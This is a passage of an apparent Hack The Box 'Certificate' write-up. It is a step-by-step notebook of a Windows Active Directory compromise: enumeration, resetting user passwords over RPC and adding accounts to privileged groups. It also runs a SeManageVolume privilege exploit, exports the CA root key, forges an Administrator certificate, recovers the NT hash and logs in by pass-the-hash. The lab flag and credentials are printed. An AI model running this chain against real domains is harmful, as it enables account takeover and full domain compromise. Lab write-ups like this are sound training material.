    _samba_cmd_set_machine_account_s3: failed to open secrets.tdb to obtain our trust credentials for CERTIFICATE.HTB
    Failed to set machine account: NT_STATUS_INTERNAL_ERROR


```python
!bloodhound-python -u $initialuser -p $initialpassword -d certificate.htb -dc $target -c All
```

    INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
    WARNING: Could not find a global catalog server, assuming the primary DC has this role
    If this gives errors, either specify a hostname with -gc or disable gc resolution with --disable-autogc
    INFO: Getting TGT for user
    WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
    INFO: Connecting to LDAP server: certificate.htb
    INFO: Found 1 domains
    INFO: Found 1 domains in the forest
    INFO: Found 3 computers
    INFO: Connecting to LDAP server: certificate.htb
    INFO: Found 19 users
    INFO: Found 58 groups
    INFO: Found 2 gpos
    INFO: Found 1 ous
    INFO: Found 19 containers
    INFO: Found 0 trusts
    INFO: Starting computer enumeration with 10 workers
    INFO: Querying computer: WS-05.certificate.htb
    INFO: Querying computer: WS-01.certificate.htb
    INFO: Querying computer: DC01.certificate.htb
    INFO: Ignoring host WS-05.certificate.htb since its hostname does not match: Supplied hostname ws-05.certificate.htb does not match reported hostnames dc01 or dc01.certificate.htb
    INFO: Ignoring host WS-01.certificate.htb since its hostname does not match: Supplied hostname ws-01.certificate.htb does not match reported hostnames dc01 or dc01.certificate.htb
    ERROR: Unhandled exception in computer DC01.certificate.htb processing: The NETBIOS connection with the remote host timed out.
    INFO: Traceback (most recent call last):
      File "/nix/store/vrv41g87skqv4rz7nkcmmlm9vvz7xh8s-python3.12-impacket-0.12.0/lib/python3.12/site-packages/impacket/nmb.py", line 986, in non_polling_read
        received = self._sock.recv(bytes_left)
                   ^^^^^^^^^^^^^^^^^^^^^^^^^^^
...snip...
    
    INFO: Done in 00M 13S


```python
!ldapsearch -x -H ldap://certificate.htb -D cn=sara.b,dc=certificate,dc=htb -w $initialpassword -b $domain_spn '(objectClass=person)'
```

    ldap_bind: Invalid credentials (49)
    	additional info: 80090308: LdapErr: DSID-0C09050F, comment: AcceptSecurityContext error, data 52e, v4563


With the basic enumeration out of the way and an updated bloodhound search, lets log in and start sleuthing.

We immediately land on a pcap file. These are super useful as they'll have NTLM negotiations for windows services sometimes, and we can extract that with various tools. In this case it only shows us that lion.sk is a user of interest.
```sh
*Evil-WinRM* PS C:\Users\Sara.B\Documents\WS-01> dir -fo


    Directory: C:\Users\Sara.B\Documents\WS-01


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        11/4/2024  12:44 AM            530 Description.txt
-a----        11/4/2024  12:45 AM         296660 WS-01_PktMon.pcap


*Evil-WinRM* PS C:\Users\Sara.B\Documents\WS-01> type Description
Cannot find path 'C:\Users\Sara.B\Documents\WS-01\Description' because it does not exist.
At line:1 char:1
+ type Description
+ ~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (C:\Users\Sara.B...-01\Description:String) [Get-Content], ItemNotFoundException
    + FullyQualifiedErrorId : PathNotFound,Microsoft.PowerShell.Commands.GetContentCommand
*Evil-WinRM* PS C:\Users\Sara.B\Documents\WS-01> download WS-01_PktMon.pcap
                                        
Info: Downloading C:\Users\Sara.B\Documents\WS-01\WS-01_PktMon.pcap to WS-01_PktMon.pcap
                                        
Info: Download successful!

We have password reset access over all these users, so let's help ourselves to some more accounts.


```python
!net rpc password "lion.sk" "Password1234!" -U "certificate"/"sara.b"%"Blink182" -S "certificate.htb"
!net rpc password "ryan.k" "Password1234!" -U "certificate"/"sara.b"%"Blink182" -S "certificate.htb"
!net rpc password "akeder.kh" "Password1234!" -U "certificate"/"sara.b"%"Blink182" -S "certificate.htb"
```

    Can't load /etc/samba/smb.conf - run testparm to debug it
    Can't load /etc/samba/smb.conf - run testparm to debug it
    Can't load /etc/samba/smb.conf - run testparm to debug it


ABC, Always Be Cnumerating.


```python
!bloodhound-python -dc dc01.certificate.htb -u "lion.sk" -p "Password1234!" -d certificate.htb -c All
```

    INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
    WARNING: Could not find a global catalog server, assuming the primary DC has this role
    If this gives errors, either specify a hostname with -gc or disable gc resolution with --disable-autogc
    INFO: Getting TGT for user
    INFO: Connecting to LDAP server: dc01.certificate.htb
    INFO: Found 1 domains
    INFO: Found 1 domains in the forest
    INFO: Found 3 computers
    INFO: Connecting to LDAP server: dc01.certificate.htb
    INFO: Found 19 users
    INFO: Found 58 groups
    INFO: Found 2 gpos
    INFO: Found 1 ous
    INFO: Found 19 containers
    INFO: Found 0 trusts
    INFO: Starting computer enumeration with 10 workers
    INFO: Querying computer: WS-05.certificate.htb
    INFO: Querying computer: WS-01.certificate.htb
    INFO: Querying computer: DC01.certificate.htb
    INFO: Ignoring host WS-01.certificate.htb since its hostname does not match: Supplied hostname ws-01.certificate.htb does not match reported hostnames dc01 or dc01.certificate.htb
    INFO: Ignoring host WS-05.certificate.htb since its hostname does not match: Supplied hostname ws-05.certificate.htb does not match reported hostnames dc01 or dc01.certificate.htb
    INFO: Done in 00M 20S


```python
!smbclient -L //$target -W 'certificate.htb' -U 'lion.sk'%"Password1234!"
```

    Can't load /etc/samba/smb.conf - run testparm to debug it
    
    	Sharename       Type      Comment
    	---------       ----      -------
    	ADMIN$          Disk      Remote Admin
    	C$              Disk      Default share
    	IPC$            IPC       Remote IPC
    	NETLOGON        Disk      Logon server share 
    	SYSVOL          Disk      Logon server share 
    SMB1 disabled -- no workgroup available


I'm going to want to spend some time digging through group permissions, so it'll be helpful to have a list of all the identified service email accounts/UPNs that might come up.


```python
groupemails = [
    "ACCESS CONTROL ASSISTANCE OPERATORS@CERTIFICATE.HTB",
    "ACCOUNT OPERATORS@CERTIFICATE.HTB",
    "ALLOWED RODC PASSWORD REPLICATION GROUP@CERTIFICATE.HTB",
    "CERT PUBLISHERS@CERTIFICATE.HTB",
    "CERTIFICATE SERVICE DCOM ACCESS@CERTIFICATE.HTB",
    "CLONEABLE DOMAIN CONTROLLERS@CERTIFICATE.HTB",
    "CRYPTOGRAPHIC OPERATORS@CERTIFICATE.HTB",
    "DENIED RODC PASSWORD REPLICATION GROUP@CERTIFICATE.HTB",
    "DISTRIBUTED COM USERS@CERTIFICATE.HTB",
    "DNSADMINS@CERTIFICATE.HTB",
    "DNSUPDATEPROXY@CERTIFICATE.HTB",
    "DOMAIN COMPUTERS@CERTIFICATE.HTB",
    "DOMAIN CRA MANAGERS@CERTIFICATE.HTB",
    "DOMAIN GUESTS@CERTIFICATE.HTB",
    "DOMAIN STORAGE MANAGERS@CERTIFICATE.HTB",
    "DOMAIN USERS@CERTIFICATE.HTB",
    "ENTERPRISE READ-ONLY DOMAIN CONTROLLERS@CERTIFICATE.HTB",
    "EVENT LOG READERS@CERTIFICATE.HTB",
    "FINANCE@CERTIFICATE.HTB",
    "GROUP POLICY CREATOR OWNERS@CERTIFICATE.HTB",
    "GUESTS@CERTIFICATE.HTB",
    "HELP DESK@CERTIFICATE.HTB",
    "HR@CERTIFICATE.HTB",
    "HYPER-V ADMINISTRATORS@CERTIFICATE.HTB",
    "IIS_IUSRS@CERTIFICATE.HTB",
    "INCOMING FOREST TRUST BUILDERS@CERTIFICATE.HTB",
    "MARKETING@CERTIFICATE.HTB",
    "NETWORK CONFIGURATION OPERATORS@CERTIFICATE.HTB",
    "PERFORMANCE LOG USERS@CERTIFICATE.HTB",
    "PERFORMANCE MONITOR USERS@CERTIFICATE.HTB",
    "PRE-WINDOWS 2000 COMPATIBLE ACCESS@CERTIFICATE.HTB",
    "PROTECTED USERS@CERTIFICATE.HTB",
    "RAS AND IAS SERVERS@CERTIFICATE.HTB",
    "RDS ENDPOINT SERVERS@CERTIFICATE.HTB",
    "RDS MANAGEMENT SERVERS@CERTIFICATE.HTB",
    "RDS REMOTE ACCESS SERVERS@CERTIFICATE.HTB",
    "REMOTE DESKTOP USERS@CERTIFICATE.HTB",
    "REMOTE MANAGEMENT USERS@CERTIFICATE.HTB",
    "STORAGE REPLICA ADMINISTRATORS@CERTIFICATE.HTB",
    "TERMINAL SERVER LICENSE SERVERS@CERTIFICATE.HTB",
    "USERS@CERTIFICATE.HTB"
    "WINDOWS AUTHORIZATION ACCESS GROUP@CERTIFICATE.HTB",
]
groups = [x.split('@')[0] for x in groupemails]
print(groups)
```

    ['ACCOUNT OPERATORS', 'DOMAIN COMPUTERS', 'RAS AND IAS SERVERS', 'PROTECTED USERS', 'MARKETING', 'HR', 'HELP DESK', 'GROUP POLICY CREATOR OWNERS', 'FINANCE', 'ENTERPRISE READ-ONLY DOMAIN CONTROLLERS', 'DOMAIN USERS', 'DOMAIN STORAGE MANAGERS', 'DOMAIN GUESTS', 'DOMAIN CRA MANAGERS', 'DNSUPDATEPROXY', 'DNSADMINS', 'DENIED RODC PASSWORD REPLICATION GROUP', 'CLONEABLE DOMAIN CONTROLLERS', 'CERT PUBLISHERS', 'ALLOWED RODC PASSWORD REPLICATION GROUP', 'TERMINAL SERVER LICENSE SERVERS', 'WINDOWS AUTHORIZATION ACCESS GROUP', 'INCOMING FOREST TRUST BUILDERS', 'PRE-WINDOWS 2000 COMPATIBLE ACCESS', 'STORAGE REPLICA ADMINISTRATORS', 'REMOTE MANAGEMENT USERS', 'ACCESS CONTROL ASSISTANCE OPERATORS', 'RDS MANAGEMENT SERVERS', 'RDS ENDPOINT SERVERS', 'RDS REMOTE ACCESS SERVERS', 'HYPER-V ADMINISTRATORS', 'CERTIFICATE SERVICE DCOM ACCESS', 'EVENT LOG READERS', 'DISTRIBUTED COM USERS', 'CRYPTOGRAPHIC OPERATORS', 'IIS_IUSRS', 'PERFORMANCE LOG USERS', 'PERFORMANCE MONITOR USERS', 'NETWORK CONFIGURATION OPERATORS', 'REMOTE DESKTOP USERS', 'GUESTS', 'USERS']


I did a lot of group sleuthing and permissions, and this is an example of where I was adding sara to groups they didn't need to be a part of just to see what they could do. Future me will tell you there's a more direct way to see permissions from groups like dacledit read, but I haven't learned that yet.


```python
!net rpc group addmem "Group Policy Creator Owners" "sara.b" -U "certificate.htb"/"sara.b"%"Blink182" -S "certificate.htb"
!net rpc group addmem "DNSADMINS" "sara.b" -U "certificate.htb"/"sara.b"%"Blink182" -S "certificate.htb"
!net rpc group addmem "ALLOWED RODC PASSWORD REPLICATION GROUP" "sara.b" -U "certificate.htb"/"sara.b"%"Blink182" -S "certificate.htb"
```

    Can't load /etc/samba/smb.conf - run testparm to debug it
    Can't load /etc/samba/smb.conf - run testparm to debug it
    Can't load /etc/samba/smb.conf - run testparm to debug it


```python
!net rpc group addmem "ENTERPRISE READ-ONLY DOMAIN CONTROLLERS" "lion.sk" -U "certificate.htb"/"sara.b"%"Blink182" -S "certificate.htb"
```

    Can't load /etc/samba/smb.conf - run testparm to debug it


```python
!net rpc group addmem "Remote Management Users" "akeder.kh" -U "certificate.htb"/"sara.b"%"Blink182" -S "certificate.htb"
```

    Can't load /etc/samba/smb.conf - run testparm to debug it


```python
!bloodhound-python -dc dc01.certificate.htb -u "sara.b" -p "Blink182" -d certificate.htb -c All
```

    INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
    WARNING: Could not find a global catalog server, assuming the primary DC has this role
    If this gives errors, either specify a hostname with -gc or disable gc resolution with --disable-autogc
    INFO: Getting TGT for user
    INFO: Connecting to LDAP server: dc01.certificate.htb
    INFO: Found 1 domains
    INFO: Found 1 domains in the forest
    INFO: Found 3 computers
    INFO: Connecting to LDAP server: dc01.certificate.htb
    INFO: Found 19 users
    INFO: Found 58 groups
    INFO: Found 2 gpos
    INFO: Found 1 ous
    INFO: Found 20 containers
    INFO: Found 0 trusts
    INFO: Starting computer enumeration with 10 workers
    INFO: Querying computer: WS-05.certificate.htb
    INFO: Querying computer: WS-01.certificate.htb
    INFO: Querying computer: DC01.certificate.htb
    INFO: Ignoring host WS-05.certificate.htb since its hostname does not match: Supplied hostname ws-05.certificate.htb does not match reported hostnames dc01 or dc01.certificate.htb
    INFO: Ignoring host WS-01.certificate.htb since its hostname does not match: Supplied hostname ws-01.certificate.htb does not match reported hostnames dc01 or dc01.certificate.htb
    INFO: Done in 00M 21S


```python
!certipy find -u lion.sk -p Password1234! -target dc01.certificate.htb -dc-ip 10.129.212.157 -vulnerable -enabled -stdout
```

    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    
    [*] Finding certificate templates
    [*] Found 35 certificate templates
    [*] Finding certificate authorities
    [*] Found 1 certificate authority
    [*] Found 12 enabled certificate templates
    [*] Trying to get CA configuration for 'Certificate-LTD-CA' via CSRA
    [!] Got error while trying to get CA configuration for 'Certificate-LTD-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
    [*] Trying to get CA configuration for 'Certificate-LTD-CA' via RRP
    [!] Failed to connect to remote registry. Service should be starting now. Trying again...
    [*] Got CA configuration for 'Certificate-LTD-CA'
    [*] Enumeration output:
    Certificate Authorities
      0
        CA Name                             : Certificate-LTD-CA
        DNS Name                            : DC01.certificate.htb
        Certificate Subject                 : CN=Certificate-LTD-CA, DC=certificate, DC=htb
        Certificate Serial Number           : 75B2F4BBF31F108945147B466131BDCA
        Certificate Validity Start          : 2024-11-03 22:55:09+00:00
        Certificate Validity End            : 2034-11-03 23:05:09+00:00
        Web Enrollment                      : Disabled
        User Specified SAN                  : Disabled
        Request Disposition                 : Issue
        Enforce Encryption for Requests     : Enabled
        Permissions
          Owner                             : CERTIFICATE.HTB\Administrators
          Access Rights
            ManageCertificates              : CERTIFICATE.HTB\Administrators
                                              CERTIFICATE.HTB\Domain Admins
                                              CERTIFICATE.HTB\Enterprise Admins
            ManageCa                        : CERTIFICATE.HTB\Administrators
                                              CERTIFICATE.HTB\Domain Admins
                                              CERTIFICATE.HTB\Enterprise Admins
            Enroll                          : CERTIFICATE.HTB\Authenticated Users
    Certificate Templates
      0
        Template Name                       : Delegated-CRA
        Display Name                        : Delegated-CRA
        Certificate Authorities             : Certificate-LTD-CA
        Enabled                             : True
        Client Authentication               : False
        Enrollment Agent                    : True
        Any Purpose                         : False
        Enrollee Supplies Subject           : False
        Certificate Name Flag               : SubjectRequireDirectoryPath
                                              SubjectRequireEmail
                                              SubjectAltRequireEmail
                                              SubjectAltRequireUpn
        Enrollment Flag                     : AutoEnrollment
                                              PublishToDs
                                              IncludeSymmetricAlgorithms
        Private Key Flag                    : ExportableKey
        Extended Key Usage                  : Certificate Request Agent
        Requires Manager Approval           : False
        Requires Key Archival               : False
        Authorized Signatures Required      : 0
        Validity Period                     : 1 year
        Renewal Period                      : 6 weeks
        Minimum RSA Key Length              : 2048
        Permissions
          Enrollment Permissions
            Enrollment Rights               : CERTIFICATE.HTB\Domain CRA Managers
                                              CERTIFICATE.HTB\Domain Admins
                                              CERTIFICATE.HTB\Enterprise Admins
          Object Control Permissions
            Owner                           : CERTIFICATE.HTB\Administrator
            Write Owner Principals          : CERTIFICATE.HTB\Domain Admins
                                              CERTIFICATE.HTB\Enterprise Admins
                                              CERTIFICATE.HTB\Administrator
            Write Dacl Principals           : CERTIFICATE.HTB\Domain Admins
                                              CERTIFICATE.HTB\Enterprise Admins
                                              CERTIFICATE.HTB\Administrator
            Write Property Principals       : CERTIFICATE.HTB\Domain Admins
                                              CERTIFICATE.HTB\Enterprise Admins
                                              CERTIFICATE.HTB\Administrator
        [!] Vulnerabilities
          ESC3                              : 'CERTIFICATE.HTB\\Domain CRA Managers' can enroll and template has Certificate Request Agent EKU set


Here we've figured out not everything is about AD. Sometimes things are just about local account permissions. Enumerating through each user on the machine we can finally see our destination, away from the rabbit holes we were given.

```sh
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> whoami /all

USER INFORMATION
----------------

User Name          SID
================== =============================================
certificate\ryan.k S-1-5-21-515537669-4223687196-3249690583-1117


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
CERTIFICATE\Domain Storage Managers        Group            S-1-5-21-515537669-4223687196-3249690583-1118 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                      State
============================= ================================ =======
SeMachineAccountPrivilege     Add workstations to domain       Enabled
SeChangeNotifyPrivilege       Bypass traverse checking         Enabled
SeManageVolumePrivilege       Perform volume maintenance tasks Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set   Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.

We find that there's many POC publishings for updating the root systems permission flags which are supposed to allow for things like disk defragmentation as a member of the SeManageVolume permissions, but it means we can also do this:

```sh
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> upload SeManageVolumeExploit.exe
                                        
Info: Uploading /home/tokugero/ctf/htb/season8/week3-certificate/winrm/SeManageVolumeExploit.exe to C:\Users\Ryan.K\Documents\SeManageVolumeExploit.exe
                                        
Data: 16384 bytes of 16384 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> ./SeManageVolumeExploit.exe
Entries changed: 842

DONE

*Evil-WinRM* PS C:\Users\Ryan.K\Documents> cd ../../Administrator
*Evil-WinRM* PS C:\Users\Administrator> dir -fo


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---       11/26/2024   6:18 PM                3D Objects
d--h--         6/3/2025   1:02 AM                AppData
d--hsl        11/3/2024   1:05 AM                Application Data
d-r---       11/26/2024   6:18 PM                Contacts
d--hsl        11/3/2024   1:05 AM                Cookies
d-r---       11/26/2024   6:18 PM                Desktop
d-r---       12/30/2024  12:48 PM                Documents
d-r---       11/26/2024   6:18 PM                Downloads
d-r---       11/26/2024   6:18 PM                Favorites
d-r---       11/26/2024   6:18 PM                Links
d--hsl        11/3/2024   1:05 AM                Local Settings
d-r---       11/26/2024   6:18 PM                Music
d--hsl        11/3/2024   1:05 AM                My Documents
d--hsl        11/3/2024   1:05 AM                NetHood
d-r---       11/26/2024   6:18 PM                Pictures
d--hsl        11/3/2024   1:05 AM                Recent
d-r---       11/26/2024   6:18 PM                Saved Games
d-r---       11/26/2024   6:18 PM                Searches
d--hsl        11/3/2024   1:05 AM                SendTo
d--hsl        11/3/2024   1:05 AM                Start Menu
d--hsl        11/3/2024   1:05 AM                Templates
d-r---       11/26/2024   6:18 PM                Videos
-a-h--         6/3/2025   1:03 AM         262144 NTUSER.DAT
-a-hs-        11/3/2024   1:05 AM         241664 ntuser.dat.LOG1
-a-hs-        11/3/2024   1:05 AM         128000 ntuser.dat.LOG2
-a-hs-        11/3/2024   1:05 AM          65536 NTUSER.DAT{b13c737b-9a1e-11ef-8ce2-080027608df8}.TM.blf
-a-hs-        11/3/2024   1:05 AM         524288 NTUSER.DAT{b13c737b-9a1e-11ef-8ce2-080027608df8}.TMContainer00000000000000000001.regtrans-ms
-a-hs-        11/3/2024   1:05 AM         524288 NTUSER.DAT{b13c737b-9a1e-11ef-8ce2-080027608df8}.TMContainer00000000000000000002.regtrans-ms
---hs-        11/3/2024   1:05 AM             20 ntuser.ini


*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir -fo


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a-hs-       11/26/2024   6:18 PM            282 desktop.ini
-ar---         6/3/2025   1:03 AM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
Access to the path 'C:\Users\Administrator\Desktop\root.txt' is denied.
```
HAM SANDWICHES something's not right.

However we do find that we have access to the CA Root certificates. Which as the namesake of the challenge, we should take to mean we should just generate some certificates.
```sh
*Evil-WinRM* PS C:\Users\Ryan.k\Documents> certutil -exportPFX Certificate-LTD-CA ca.pfx
MY "Personal"
================ Certificate 2 ================
Serial Number: 75b2f4bbf31f108945147b466131bdca
Issuer: CN=Certificate-LTD-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 3:55 PM
 NotAfter: 11/3/2034 4:05 PM
Subject: CN=Certificate-LTD-CA, DC=certificate, DC=htb
Certificate Template Name (Certificate Type): CA
CA Version: V0.0
Signature matches Public Key
Root Certificate: Subject matches Issuer
Template: CA, Root Certification Authority
Cert Hash(sha1): 2f02901dcff083ed3dbb6cb0a15bbfee6002b1a8
  Key Container = Certificate-LTD-CA
  Unique container name: 26b68cbdfcd6f5e467996e3f3810f3ca_7989b711-2e3f-4107-9aae-fb8df2e3b958
  Provider = Microsoft Software Key Storage Provider
Signature test passed
Enter new password for output file ca.pfx:
Enter new password:
Confirm new password:
CertUtil: -exportPFX command completed successfully.

Since we have the root, we can make up whatever we want, templates be damned.


```python
!certipy forge -ca-pfx ca.pfx -upn administrator@certificate.htb -subject 'CN=Administrator,CN=Users,DC=certificate,DC=htb' 
```

    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    
    [*] Saved forged certificate and private key to 'administrator_forged.pfx'


```python
!certipy auth -pfx administrator_forged.pfx -dc-ip 10.129.151.165 
```

    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    
    [*] Using principal: administrator@certificate.htb
    [*] Trying to get TGT...
    [*] Got TGT
    [*] Saved credential cache to 'administrator.ccache'
    [*] Trying to retrieve NT hash for 'administrator'
    [*] Got hash for 'administrator@certificate.htb': aad3b435b51404eeaad3b435b51404ee:d804304519bf0143c14cbf1c024408c6


```sh
 evil-winrm -i 10.129.190.240 -u administrator -H d804304519bf0143c14cbf1c024408c6
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
d1d2ed8c6253d4bedb2b21b3ba726253
```
And this is how I learned about why certificates are important.
